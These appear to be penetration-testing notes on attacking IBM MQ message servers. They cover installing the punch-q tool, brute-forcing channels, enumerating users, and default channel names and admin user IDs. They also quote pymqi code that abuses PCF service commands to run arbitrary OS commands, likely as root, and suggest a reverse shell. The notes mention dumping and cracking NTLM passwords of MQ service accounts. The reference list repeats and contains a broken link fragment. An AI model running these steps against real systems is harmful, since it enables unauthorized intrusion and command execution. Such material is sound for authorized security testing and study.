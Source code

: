# Practical IBM MQ Penetration Testing notes

In order to interact with IBM MQ in any way, we need to install IBM MQ Client libraries, available only on IBM website. Account registration will be required to get hands on them.

### Step 1: Installing prerequisities

**Pre-requisites: IBM MQ Client**

1. Download the [IBM MQ V9.0.0.4 LTS Clients](http://ibm.biz/mq9004clients) - the file should be named: `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` (_9.0.0.4 Client install image for IBM MQ on Linux X86-64_) - size: 397MB
2. Extract it to whatever directory.
3. Install debian/Kali/Ubuntu pre-requisities `apt install -y python-dev rpm`
4. Accept the license: `sudo ./mqlicense.sh -accept` or `sudo ./mqlicense.sh -text_only`
5. Do the following:

```
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
```

### **Step 2: Pymqi & punch-q**

Having properly installed all of the MQ Client dependencies, we can now proceed to installing `pymqi` and `punch-q`:

1. Clone the punch-q repo: `git clone https://github.com/sensepost/punch-q`
2. Install them:
```
# pip install pymqi
# pip install -r requirements.txt
# python setup.py install
```

3. Before using `punch-q` specify MQ libraries path:

Either globally:
```
# sudo echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
# sudo ldconfig -v
```

or temporarily:
```
# export LD_LIBRARY_PATH=/opt/mqm/lib64
```

**One stop shop script installing IBM MQ Client libraries**

Assuming we have `9.0.0.4-IBM-MQC-LinuxX64.tar.gz` file in our current directory, following script applies on Kali x64 linux:
```
apt install -y python-dev rpm pcregrep
tar -xvzf 9.0.0.4-IBM-MQC-LinuxX64.tar.gz
pcregrep -vM '(?:echo "\s+This package was built for \$\{BUILD_PLATFORM\}")\n\s*exit 1' mqlicense.sh > /tmp/mqlicense.sh
cat /tmp/mqlicense.sh > mqlicense.sh
rm /tmp/mqlicense.sh
yes | sudo ./mqlicense.sh -accept
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesRuntime-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesClient-9.0.0-4.x86_64.rpm
rpm --prefix /opt/mqm -ivh --nodeps --force-debian MQSeriesSDK-9.0.0-4.x86_64.rpm
pip install pymqi
echo /opt/mqm/lib64 > /etc/ld.so.conf.d/mqm.x86_64.conf
sudo ldconfig -v
ls | grep -v 9.0.0.4-IBM-MQC-LinuxX64.tar.gz | xargs rm -rf
git clone https://github.com/sensepost/punch-q
cd punch-q
pip install -r requirements.txt
python setup.py install
```

## Step 2: Handy notes on where to focus

**Internally:**

Having found several running processes with names such as:
`amqsvc.exe`, `amqxssvn.exe`, `amqrrmfa.exe`, `amqmtbrn.exe` 

These processes will be running impersonated as highly privileged service user name (according to the usernames table available below, at 2) . These users will act as local SAM users, which means we might be able to dump their NTLM passwords and crack them or even change them to whatever value we wish to facilitate successful IBM MQ server authentication.

**Externally:**

By using `punch-mq` we can:
1) Discover/Brute-Force available CHANNELS, 
2) Enumerate usernames (valid UserId fields)
3) Enumerate Queue Manager names
4) List available Channels or Queues as an authenticated user.
5) PUT, GET, Dump, Save, Sniff messages given an existent QUEUE name, as an authenticated user
6) Issue OS Commands by the use of `PCFExecute` functionality

In order to successfully authenticate to the IBM MQ server, we will need to have upfront following informatio prepared:
- Hostname/IP address
- TCP Port, typically `1414/tcp`
- Queue Manager name - easily obtained by the use of nmap scripts: `nmap -p 1414 -sV <host>` 
- Channel name (can be one of the below listed), at first start with: `SYSTEM.ADMIN.SVRCONN`
- Username (list of default system usernames below)
- Password

Incorrect access credentials will result in `pymqi` returning following response:
```
pymqi.MQMIError: MQI Error. Comp: 2, Reason 2035: FAILED: MQRC_NOT_AUTHORIZED
```

### 1) Default channel names:

_(in order to view system objects - click "Show System Objects" on upper right side of the MQ Explorer interface)_

```
SYSTEM.ADMIN.SVRCONN
SYSTEM.AUTO.SVRCONN
SYSTEM.DEF.SVRCONN
SYSTEM.DEF.SERVER
SYSTEM.DEF.CLNTCONN
```

### 2) Default Userid's depending on target OS version:

| OS Version     | UserId       |
|----------------|--------------|
| Linux/Unix/AIX | mqm          |
| Windows        | MUSR_MQADMIN |
| Other          | mqadmin      |

### 5) Important Administration QUEUE names:

```
SYSTEM.ADMIN.COMMAND.QUEUE
SYSTEM.DEFAULT.MODEL.QUEUE
SYSTEM.AUTH.DATA.QUEUE
```

### 6) Remote Code Execution

**6.1. Programmable Command Format (PCF) Services**

Being authenticated to the Queue Manager and a corresponding channel, we might be able to execute PCF (_Programmable Command Format_) commands (on MQ v6+) that would give us OS command execution by the use a concept called _services_:
- `MQCMD_CREATE_SERVICE`, 
- `MQCMD_START_SERVICE`, 
- `MQCMD_STOP_SERVICE`, 
- `MQCMD_DELETE_SERVICE`

That holds true as long as our impersonated user has sufficient permissions within OAM (Object Authority Manager) to perform requested PCF operation on the relevant objects.

Using `pymqi` or `punch-mq` this is as simple as invoking following code (source: [punch-mq](https://github.com/sensepost/punch-q/blob/master/libpunchq/cli.py) ):
```
    # create service
    qmgr = pymqi.connect(mqstate.qm_name, mqstate.channel, mqstate.get_host(),
                         mqstate.username, mqstate.password)
                         
    args = {
        pymqi.CMQC.MQCA_SERVICE_NAME: service_name,
        pymqi.CMQC.MQIA_SERVICE_CONTROL: pymqi.CMQC.MQSVC_CONTROL_MANUAL,
        pymqi.CMQC.MQIA_SERVICE_TYPE: pymqi.CMQC.MQSVC_TYPE_COMMAND,
        pymqi.CMQC.MQCA_SERVICE_START_COMMAND: str(cmd),
        pymqi.CMQC.MQCA_SERVICE_START_ARGS: str(args)
    }
    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_CREATE_SERVICE(args)

    # start the service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_START_SERVICE(args)

    # Giving the service some time to live
    time.sleep(wait)

    # delete service
    args = {pymqi.CMQC.MQCA_SERVICE_NAME: service_name}

    pcf = pymqi.PCFExecute(qmgr)
    pcf.MQCMD_DELETE_SERVICE(args)

    qmgr.disconnect()
```

Incomming command will then be executed most likely as a root user. `punch-mq` does not implement any way of getting command's result back so we will have to go blindly here, preferably just using reverse-shell oneliner. 

If we wish to have our commands' results back, then more code will need to be added facilitating specification of output Queue where PCF should PUT it's results, then manual Queue read by the use of GET operation to retrieve OS command's outcome. Such a Queue could be created based on `SYSTEM.DEFAULT.MODEL.QUEUE` template. Martyn Ruks goes in details on that in his paper (ref: 1, page 24).

**6.2. Use of Triggers**

Martyn Ruks described (ref: 1, page 30) that we may also succeed invoking system commands by defining event triggers that would execute specified command as soon as preconfigured event fired up our malicious trigger.


## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)raad](https://gist.github.com/mgeeky/fc11c9f227755a529eb607ed4d1742f9)



## Additional sources

1. [Martyn Ruks: WebSphere MQ Security. White Paper – Part 1](https://labs.f-secure.com/assets/141/original/mwri_websphere-mq-security-white-paper-part1_2008-05-06.pdf)
2. [Martyn Ruks: MQ Jumping](https://www.defcon.org/images/defcon-15/dc15-presentations/dc-15-ruks.pdf)
3. [punch-q](https://github.com/sensepost/punch-q)
4. [pymqi installation issue](https://github.com/dsuch/pymqi/issues/15#issuecomment-124772995)